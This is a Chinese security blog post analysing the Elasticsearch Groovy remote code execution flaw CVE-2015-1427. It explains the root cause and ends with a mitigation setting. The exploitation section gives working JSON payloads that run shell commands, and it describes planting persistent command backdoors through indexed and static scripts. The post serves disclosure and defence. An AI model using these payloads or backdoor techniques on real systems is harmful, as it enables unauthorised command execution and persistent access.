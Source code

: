 ```yaml
---
layout: post
title: "ElasticSearch 远程代码执行漏洞分析（CVE-2015-1427）&amp;高级利用方法"
date: 2015-03-06 19:30:55 +0800
comments: true
categories: "技术"
tags: [ElasticSearch,Expression Language]
---
```


### 0x00 漏洞概述

我第一次知道CVE-2015-1427这个漏洞是在2月13日（春节放假前一天），但是当时想着过年，而且觉得应该是Groovy自身的问题，就也没太在意。知道前两天兰少（lupin）问我有没有看这个漏洞，说他找到了绕过了沙盒的方法，才跑去看。

我跟lupin玩这个洞的思路不太一样，而且漏洞原理在他的文章里已经说的很清楚了，我这篇文章主要侧重这个漏洞利用的各种玩法。

<!-- more -->

### 0x01 漏洞原理

漏洞原因很简单，由于沙盒代码黑名单中的Java危险方法不全，从而导致恶意用户仍可以使用反射的方法来执行Java代码。这就完了？当然不是！由于Elasticsearch开发团队没有完全认知Groovy的强大，以为仅仅防止用户调用Java反射就可以免于被攻击，这真是太好笑了，我们来看下Groovy对自己的描述：

![groovy](/images/content/2015-03-06-ElasticSearch 远程代码执行漏洞分析（CVE-2015-1427）/groovy.png)

没错！Groovy是一款开发语言，这意味着我们完全可以在不使用Java的前提下实现代码执行。如果仅仅是沙盒的问题，那么修补黑白名单到攻击者没办法绕过沙盒使用Java反射就好了，但是一种语言要怎么靠黑白名单来限制它的绝大部分功能？所以没有把Groovy当做一种编程语言是这问题的真正原因。

### 0x02 漏洞利用

漏洞利用其实也很简单，我们只需要参照官方提供的script使用说明来执行脚本就可以了。[官方文档](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html)提供了两个方法让我们直接执行脚本代码。

我们先来看第一种方式——直接执行脚本，这种方式也就是目前大家都在使用的方式。使用起来也很简单，直接向/_search这个URL提供如下POST内容：

```groovy
{"script_fields": {"my_field": {"script": "def command=\"netstat -an\";def res=command.execute().text;res","lang":"groovy"}}}
```

效果如下图所示：

![script](/images/content/2015-03-06-ElasticSearch 远程代码执行漏洞分析（CVE-2015-1427）/script.png)

官方文档除了直接执行脚本，还提供了一种预先存储脚本用于以后执行的方式——脚本索引，这种方法使用起来比较繁琐，下面我们先来看官方提供的示例：

```
//建立脚本索引
curl -XPOST localhost:9200/_scripts/groovy/indexedCalculateScore -d '{
     "script": "log(_score * 2) + my_modifier"
}'
//使用脚本索引，并执行脚本索引中的代码
curl -XPOST localhost:9200/_search -d '{
  "query": {
    "function_score": {
      "query": {
        "match": {
          "body": "foo"
        }
      },
      "functions": [
        {
          "script_score": {
            "script_id": "indexedCalculateScore",
            "lang" : "groovy",
            "params": {
              "my_modifier": 8
            }
          }
        }
      ]
    }
  }
}'
```

下面我们来看实际操作，首先是建立脚本索引：

```json
{
     "script": "def command=\"netstat -an\";def res=command.execute().text;res"
}
```

然后是执行刚刚建立的脚本索引，由于官方给的示例中不可以返回字符串，所以这里我修改了POST提交的内容。

```json
{
    "query" : {
       "match_all":{
        }
    },
    "script_fields" : {
        "test1" : {
            "script_id" : "indexedCalculateScore",
            "lang":"groovy"
        }
    }
}
```

这种方法相比较直接执行脚本多了一个存储的步骤，但是却不失为一种留后门的好方法。如果我们这样建立一条脚本索引：

```json
{
     "script": "def res=command.execute().text;res"
}
```

然后这样执行它：

```json
{
    "query" : {
       "match_all":{
        }
    },
    "script_fields" : {
        "test1" : {
            "script_id" : "indexedCalculateScore",
            "lang":"groovy",
            "params":{
                 "command":"netstat -an"
             }
        }
    }
}
```

完美的一个shell命令后门就完成了，效果如下图所示：

![indexed-script](/images/content/2015-03-06-ElasticSearch 远程代码执行漏洞分析（CVE-2015-1427）/indexed-script.png)

不过使用脚本索引建立的后门有一个问题，就是需要在动态脚本开启的状态下。而官方提供给我们的最后一个调用脚本的方式——调用静态脚本，刚刚好可以帮助我们维持后门的持久性。

使用方法如下：在config目录下建立一个名为scripts的目录，把脚本文件放进去，然后用script_file替换上面的script_id字段就好了。这里做一个简单的例子，在scripts里放上我们刚才的的那个shell后门的代码，并命名为vul.groovy，然后POST如下数据进行搜索：

```json
{
    "script_fields": {
        "my_field": {
            "file": "vul",
            "params": {
                  "command":"netstat -an"
            }
        }
    }
}
```

如果你足够仔细的话，可能会发现上面的代码中我使用的file而不是官方示例的script_file，因为我测试环境是1.3.5和1.4.10，而官方所提供的示例应该是针对MVEL表达式时代的静态表达式使用方法，所以有些时候不看代码是无法发现真相的→_→。

### 0x03 思维壁垒

在和lupin一开始讨论这个漏洞的时候，发现我们思考的方式完全不一样。他在跟我说怎么怎么绕过沙盒，而我却不断的问他沙盒在哪里？为什么我没有感觉到沙盒的存在？从lupin[这篇文章](http://drops.wooyun.org/papers/5107)描述的细节和下面官方对这个漏洞描述的内容以及官方对于漏洞的后期修复，再到这两天的全民反射来看，大家明显是都被带到沟里去了，把一个好好的代码执行漏洞玩成了命令执行漏洞。

> The vulnerabilities allow an attacker to construct Groovy scripts that escape the sandbox and execute shell commands as the user running the Elasticsearch Java VM.

如果让我用一句话来评论目前的大家使用的PoC的话，“用C的方式来利用一个PHP代码执行”，这句话再合适不过了。我在[《一种新的攻击方法——Java-Web-Expression-Language-Injection》][]中提到的JELI的这种漏洞形式（或者说攻击方法），是由于开发者对于Java上层建筑的表达式认知度不够而导致漏洞的出现。Struts2没有想到Ognl可以执行Java代码，Elasticsearch同样没有想到Groovy可以实现任意Java功能。

所以在这里我觉得有必要提醒大家一下，小心思维壁垒的出现。

### 0x04 漏洞总结

#### 漏洞小结

1. 影响范围个人评价为“高”，ElasticSearch在大数据时代得到广泛的使用，而且此漏洞覆盖十个左右的版本，所以影响范围还是很广的。

2. 危害性个人评价为“极高”，此漏洞值需要使用默认的动态脚本配置便可被利用，攻击者可以利用这个漏洞getshell。


#### 防护方案

关闭groovy沙盒以已停止动态脚本的使用：

```yml
script.groovy.sandbox.enabled: false
```

官方已经在最新版本中修复此问题，最新版下载链接为：
http://www.elasticsearch.org/overview/elkdownloads/



[《一种新的攻击方法——Java-Web-Expression-Language-Injection》]:http://drops.wooyun.org/tips/2494
